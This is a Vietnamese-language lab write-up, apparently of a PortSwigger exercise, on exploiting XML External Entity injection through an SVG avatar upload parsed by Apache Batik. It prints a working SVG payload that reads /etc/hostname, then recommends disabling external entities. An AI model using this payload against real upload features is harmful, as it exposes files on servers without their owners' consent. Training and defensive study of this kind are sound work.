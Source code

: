 # Write-up: Exploiting XXE via image file upload

### Tổng quan
Khai thác lỗ hổng XML External Entity (XXE) trong chức năng tải avatar bằng cách nhúng payload XXE vào file SVG, tận dụng Apache Batik library để xử lý file ảnh và đọc nội dung file `/etc/hostname`, sau đó submit hostname `f52c0a2b54fb` để hoàn thành lab.

### Mục tiêu
- Tạo và tải file SVG chứa payload XXE để hiển thị nội dung file `/etc/hostname`, lấy giá trị hostname và submit để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng comment trên giao diện web, nhận thấy có tùy chọn tải avatar (file ảnh).
- Trong Burp Suite Proxy, quan sát yêu cầu tải file avatar
    - **Quan sát**: Server sử dụng Apache Batik library để xử lý file SVG, gợi ý khả năng tồn tại lỗ hổng XXE do SVG hỗ trợ XML:

2. **Khai thác (Exploitation)**
- Tạo file SVG chứa payload XXE để đọc file `/etc/hostname`:
    ```xml
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px"
        xmlns="http://www.w3.org/2000/svg"
        xmlns:xlink="http://www.w3.org/1999/xlink"
        version="1.1">
      <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
- Tải file SVG lên qua chức năng comment avatar.
    ![post](./images/1_post-svg.png)
- Truy cập trang hiển thị comment (ví dụ: /comment/view) hoặc ảnh avatar để xem kết quả:
    ![comment](./images/2_hostname.png)
    - **Phản hồi**: Nội dung file /etc/hostname hiển thị là f52c0a2b54fb:
    - **Giải thích**: Apache Batik xử lý file SVG, thực thi payload XXE trong DOCTYPE, đọc file `/etc/hostname` thông qua entity `&xxe;` do server không vô hiệu hóa xử lý external entities.

- Submit hostname `f52c0a2b54fb` qua nút "Submit solution":
    ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XXE thông qua file SVG để đọc dữ liệu nội bộ trên server.
- Nhận thức tầm quan trọng của việc vô hiệu hóa xử lý external entities trong các thư viện xử lý XML như Apache Batik và kiểm tra chặt chẽ file tải lên.

### Tài liệu tham khảo
- PortSwigger: XML External Entity (XXE) Injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác XXE thông qua file SVG, tận dụng Apache Batik để đọc file nội bộ, và hiểu cách bảo vệ hệ thống khỏi XXE trong chức năng tải file. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*